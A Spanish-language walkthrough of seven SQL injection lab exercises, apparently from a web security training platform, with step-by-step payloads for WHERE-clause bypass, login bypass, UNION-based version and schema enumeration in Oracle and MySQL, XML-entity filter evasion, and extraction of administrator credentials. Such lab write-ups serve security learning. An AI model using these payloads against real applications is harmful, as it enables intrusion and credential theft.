 ## SQL Injection

---

### 1. SQL Injection en la cláusula WHERE para recuperar datos ocultos

1. Accede a una categoría en la aplicación web.
2. Modifica la URL cambiando la categoría por la cadena: `'+OR+1=1--`.
3. Accede a la URL modificada.

---

### 2. SQL Injection para bypass de login

1. Haz clic en "My account".
2. Inicia sesión usando el usuario: `administrator'--`.
3. En el campo de contraseña, ingresa cualquier valor.
4. Haz clic en "Log in".

---

### 3. SQL Injection para consultar el tipo y versión de la base de datos en Oracle

1. Accede a una categoría en la aplicación web.
2. Modifica la URL cambiando la categoría por la cadena: `'+UNION+SELECT+BANNER,+NULL+FROM+v$version--`.
3. Accede a la URL modificada.

---

### 4. SQL Injection con bypass de filtros mediante codificación XML

1. Abre las herramientas de desarrollo (F12).
2. Ve a la pestaña "Network".
3. Haz clic en los detalles de un producto.
4. Haz clic en "Check stock".
5. Copia la petición que recupera el stock como `fetch`.
6. Ve a la pestaña "Console".
7. Pega la petición.
8. Modifica el contenido de la etiqueta `storeId` por:
   ```xml
   &#x31;&#x20;&#x55;&#x4E;&#x49;&#x4F;&#x4E;&#x20;&#x53;&#x45;&#x4C;&#x45;&#x43;&#x54;&#x20;&#x75;&#x73;&#x65;&#x72;&#x6E;&#x61;&#x6D;&#x65;&#x20;&#x7C;&#x7C;&#x27;&#x7E;&#x27;&#x20;&#x7C;&#x7C;&#x20;&#x70;&#x61;&#x73;&#x73;&#x77;&#x6F;&#x72;&#x64;&#x20;&#x46;&#x52;&#x4F;&#x4D;&#x20;&#x75;&#x73;&#x65;&#x72;&#x73;
   ```
9. Ejecuta la petición.
10. Usa las credenciales que muestra el `response` para iniciar sesión como administrador.

---

### 5. SQL Injection para consultar el tipo y versión de la base de datos en MySQL y Microsoft

1. Accede a la categoría "Gifts".
2. Agrega a la URL la siguiente cadena:
   ```
   %27%20UNION%20SELECT%20%40%40version,%20%27def%27%20%23
   ```
3. Accede a la URL modificada.

---

### 6. SQL Injection para listar el contenido de la base de datos en bases no-Oracle

1. Accede a la categoría "Pets".
2. Agrega a la URL la siguiente cadena:
   ```
   '+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
   ```
3. Accede a la URL modificada para ver las tablas existentes.
4. Encuentra la tabla objetivo (por ejemplo, `users_kkyhth`).
5. Modifica la URL agregando la siguiente cadena:
   ```
   '+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_kkyhth'--
   ```
6. Accede a la URL modificada para ver las columnas de la tabla.
7. Encuentra las columnas de credenciales (por ejemplo, `username_lgajcw` y `password_ckilco`).
8. Modifica la URL agregando la siguiente cadena:
   ```
   %27+UNION+SELECT+username_lgajcw,+password_ckilco+FROM+users_kkyhth--
   ```
9. Usa las credenciales del administrador para iniciar sesión.

---

### 7. SQL Injection para listar el contenido de la base de datos en Oracle

1. **Determina el número de columnas y su tipo**:
   Usa la siguiente carga útil en el parámetro `category`:
   ```sql
   '+UNION+SELECT+'abc','def'+FROM+dual--
   ```
2. **Recupera la lista de tablas**:
   Usa la siguiente carga útil:
   ```sql
   '+UNION+SELECT+table_name,NULL+FROM+all_tables--
   ```
3. **Encuentra la tabla de credenciales**.
4. **Recupera los detalles de las columnas**:
   Usa la siguiente carga útil (reemplaza `USERS_ABCDEF` con el nombre de la tabla):
   ```sql
   '+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--
   ```
5. **Encuentra las columnas de nombres de usuario y contraseñas**.
6. **Recupera las credenciales**:
   Usa la siguiente carga útil (reemplaza los nombres de la tabla y las columnas):
   ```sql
   '+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--
   ```


